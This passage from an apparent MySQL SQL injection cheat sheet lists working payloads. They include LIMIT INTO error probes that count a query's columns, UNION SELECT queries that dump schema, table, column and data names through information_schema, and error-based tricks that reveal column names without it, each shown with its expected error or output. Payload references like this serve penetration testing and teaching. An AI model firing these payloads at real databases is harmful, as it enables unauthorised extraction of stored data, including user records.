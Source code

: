 #### LIMIT INTO Method

This method is effective when error reporting is enabled. It can help determine the number of columns in cases where the injection point occurs after a LIMIT clause.

| Payload                      | Error           |
| ---------------------------- | --------------- |
| `1' LIMIT 1,1 INTO @--+`     | `The used SELECT statements have a different number of columns` |
| `1' LIMIT 1,1 INTO @,@--+`  | `The used SELECT statements have a different number of columns` |
| `1' LIMIT 1,1 INTO @,@,@--+` | `No error means query uses 3 columns` |

Since the result doesn't show any error it means the query uses 3 columns: `-1' UNION SELECT 1,2,3--+`.

### Extract Database With Information_Schema

This query retrieves the names of all schemas (databases) on the server.

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata
```

This query retrieves the names of all tables within a specified schema (the schema name is represented by PLACEHOLDER).

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema=PLACEHOLDER
```

This query retrieves the names of all columns in a specified table.

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name=...
```

This query aims to retrieve data from a specific table.

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,data,0x7C) FROM ...
```

### Extract Columns Name Without Information_Schema

Method for `MySQL >= 4.1`.

| Payload | Output |
| --- | --- |
| `(1)and(SELECT * from db.users)=(1)` | Operand should contain **4** column(s) |
| `1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)` | Column '**id**' cannot be null |

Method for `MySQL 5`

| Payload | Output |
| --- | --- |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b)a` | Duplicate column name '**id**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a` | Duplicate column name '**name**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a` | Data |
